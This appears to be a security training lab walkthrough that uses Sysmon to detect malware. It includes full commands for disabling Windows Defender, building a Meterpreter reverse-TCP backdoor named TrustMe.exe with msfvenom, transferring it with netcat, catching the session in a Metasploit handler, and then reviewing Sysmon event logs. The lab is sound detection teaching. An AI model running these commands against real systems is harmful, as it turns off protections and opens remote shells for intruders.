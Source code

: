 
# Sysmon

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Next, let’s start up the ADHD Linux system and set up our malware and C2 listener: 

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](../AppLocker/attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](../AppLocker/attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  

Please note that my adaptor is called eth0 and my IP address is 172.31.141.100.   

Your IP Address and adapter name may be different.

Now, run the following commands to start a simple backdoor and backdoor listener: 
 

$ `sudo su -`
Please note, the adhd password is adhd.

\#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

\#`cd /tmp`

\#`ls -l TrustMe.exe`

/#`nc -l -p 2222 < TrustMe.exe`


Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`


root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.31.141.100`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

![](../AppLocker/attachments/Clipboard_2020-06-12-12-46-10.png)



Next, to open a Command Prompt Window, select the Down Carrot ![](attachments\Clipboard_2020-06-12-10-38-20.png) and then select Command Prompt.

![](../AppLocker/attachments/cmd-command-prompt.png)

Then, type the following:

C:\Windows\system32>`cd \Tools`

C:\Tools>`Sysmon64.exe -accepteula -i sysmonconfig-export.xml`


It should look like this:

![](attachments/Clipboard_2020-06-15-10-43-37.png)


let's run the following commands to copy over and run the TrustMe.exe file.

`cd \tools`

`nc <Your Linux IP> 2222 > TrustMe.exe`

Take a deep breath.  Count to 5.  Then hit Ctrl+c to kill the connection.

Then, run it.

`TrustMe.exe`

It should look like this:

![](../AppLocker/attachments/TrustMe.png)


Back at your Ubuntu prompt, you should have a metasploit session!

![](../AppLocker/attachments/Clipboard_2020-06-12-12-55-11.png)


Now, we need to view the Sysmon events for this malware:

You will select Event Viewer > Applications and Services Logs > Windows > Sysmon > Operational

![](attachments/Clipboard_2020-06-15-10-46-31.png)


        …………………………………………………………….

![](attachments/Clipboard_2020-06-15-10-47-01.png)


Start at the top and work down through the logs, you should see your malware executing.  Please note your paths may be different.

![](attachments/Clipboard_2020-07-09-16-04-23.png)

![](attachments/Clipboard_2020-07-09-16-04-40.png)




















